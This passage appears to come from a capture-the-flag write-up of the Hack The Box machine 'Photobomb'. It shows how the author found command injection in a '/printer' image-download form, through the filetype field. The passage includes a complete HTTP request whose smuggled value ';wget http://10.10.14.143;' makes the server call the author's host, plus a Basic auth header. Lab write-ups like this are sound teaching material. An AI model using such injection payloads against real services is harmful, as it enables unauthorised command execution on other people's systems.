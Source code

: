 I used those credentials to access the '/printer' page.

![Printer Page](/assets/images/2023/02/Photobomb/Connected.png "Printer Page")

This page had a bunch of images. And it allowed downloading them in different file types and sizes.

![Download Image](/assets/images/2023/02/Photobomb/DownloadImage.png "Download Image")

Thinking that the application might have used shell commands to transform the images, I tried executing commands. I launched a web server on my machine and tried to make the application sends requests to it. I quickly found that I could use `;` in the file type and append a command to it.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg%3bwget+http%3a//10.10.14.143%3b&dimensions=30x20
```
